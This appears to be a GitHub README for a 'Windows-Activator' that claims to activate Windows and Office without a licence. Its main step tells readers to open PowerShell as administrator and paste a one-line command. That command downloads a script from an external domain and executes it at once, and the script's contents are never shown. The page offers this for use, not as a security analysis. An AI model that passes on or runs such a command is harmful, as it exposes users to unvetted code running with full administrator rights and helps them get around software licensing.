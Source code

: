 # Windows-Activator

# You can activte the windows as well as office from this powershell command


1. open powershell in administrator and type " ```irm https://getactivation.exitcorporation.store | iex ```" Enter

 ![image](https://github.com/user-attachments/assets/576e5fbc-fc6b-492e-8bee-d001d098b392)

2. After this press " 1 " For Windows Activation

![image](https://github.com/user-attachments/assets/9068e3c9-76b9-416a-8c65-b8501ab2b84a)


  
